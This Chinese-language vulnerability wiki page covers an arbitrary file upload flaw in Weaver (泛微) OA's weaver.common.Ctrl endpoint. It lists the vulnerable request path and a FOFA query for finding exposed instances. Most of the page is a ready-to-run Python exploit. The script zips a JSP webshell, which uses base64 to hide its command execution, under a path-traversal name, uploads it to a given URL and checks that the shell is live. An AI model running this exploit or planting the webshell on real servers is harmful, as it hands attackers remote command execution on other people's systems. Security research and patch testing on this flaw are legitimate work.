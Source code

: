 # 泛微OA weaver.common.Ctrl 任意文件上传漏洞

## 漏洞描述

泛微OA weaver.common.Ctrl 存在任意文件上传漏洞，攻击者通过漏洞可以上传webshell文件控制服务器

## 漏洞影响

> [!NOTE]
>
> 泛微OA 

## FOFA

> [!NOTE]
>
> app="泛微-协同办公OA"

## 漏洞复现

存在漏洞的路径为

```
/weaver/weaver.common.Ctrl/.css?arg0=com.cloudstore.api.service.Service_CheckApp&arg1=validateApp
```

请求包为

![](http://wikioss.peiqi.tech/vuln/fanwei-36.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

​	使用POC文件上传

![](http://wikioss.peiqi.tech/vuln/fanwei-37.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

## 漏洞POC

```python
import zipfile
import random
import sys
import requests



def generate_random_str(randomlength=16):
  random_str = ''
  base_str = 'ABCDEFGHIGKLMNOPQRSTUVWXYZabcdefghigklmnopqrstuvwxyz0123456789'
  length = len(base_str) - 1
  for i in range(randomlength):
    random_str += base_str[random.randint(0, length)]
  return random_str

mm = generate_random_str(8)

webshell_name1 = mm+'.jsp'
webshell_name2 = '../../../'+webshell_name1

def file_zip():
    shell = """<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="sun.misc.BASE64Decoder" %>
<%
    if(request.getParameter("cmd")!=null){
        BASE64Decoder decoder = new BASE64Decoder();
        Class rt = Class.forName(new String(decoder.decodeBuffer("amF2YS5sYW5nLlJ1bnRpbWU=")));
        Process e = (Process)
                rt.getMethod(new String(decoder.decodeBuffer("ZXhlYw==")), String.class).invoke(rt.getMethod(new
                        String(decoder.decodeBuffer("Z2V0UnVudGltZQ=="))).invoke(null, new
                        Object[]{}), request.getParameter("cmd") );
        java.io.InputStream in = e.getInputStream();
        int a = -1;
        byte[] b = new byte[2048];
        out.print("<pre>");
        while((a=in.read(b))!=-1){
            out.println(new String(b));
        }
        out.print("</pre>");
    }
%>
    """   ## 替换shell内容
    zf = zipfile.ZipFile(mm+'.zip', mode='w', compression=zipfile.ZIP_DEFLATED)
    zf.writestr(webshell_name2, shell)

def GetShell(urllist):
    file_zip()
    print('上传文件中')
    urls = urllist + '/weaver/weaver.common.Ctrl/.css?arg0=com.cloudstore.api.service.Service_CheckApp&arg1=validateApp'
    file = [('file1', (mm+'.zip', open(mm + '.zip', 'rb'), 'application/zip'))]
    requests.post(url=urls,files=file,timeout=60, verify=False)
    GetShellurl = urllist+'/cloudstore/'+webshell_name1
    GetShelllist = requests.get(url = GetShellurl)
    if GetShelllist.status_code == 200:
        print('利用成功webshell地址为:'+GetShellurl)
    else:
        print('未找到webshell利用失败')

def main():
    if (len(sys.argv) == 2):
        url = sys.argv[1]
        GetShell(url)
    else:
        print("python3 poc.py http://xx.xx.xx.xx")

if __name__ == '__main__':
    main()
```

## 参考文章

[原漏洞公开地址](https://github.com/GTX8090TI/GTX8090TI.github.io/blob/6dd04a19bbc4fcef436e0b2f05c15bc98ac0c852/2021/05/02/%E6%B3%9B%E5%BE%AEOA-%E5%89%8D%E5%8F%B0GetShell%E5%A4%8D%E7%8E%B0/index.html)